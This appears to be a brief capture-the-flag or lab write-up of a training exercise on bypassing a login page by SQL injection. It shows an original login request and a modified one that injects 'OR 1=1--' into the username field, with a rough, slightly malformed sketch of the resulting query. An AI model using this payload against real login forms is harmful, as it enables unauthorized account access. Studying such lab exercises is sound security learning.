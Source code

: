 # Lab - SQL injection vulnerability allowing login bypass


>Perform an SQL injection attack that logs in to the application as the administrator user. 


Parameter:
```
csrf=XXXXXXXX&username=administrator&password=1
```

Modified:
```
csrf=XXXXXXXX&username=administrator'OR+1=1--&password=1
```

```
SELECT username, password WHERE username='administrator'-- OR 1=1 'AND password='fahmi'
```


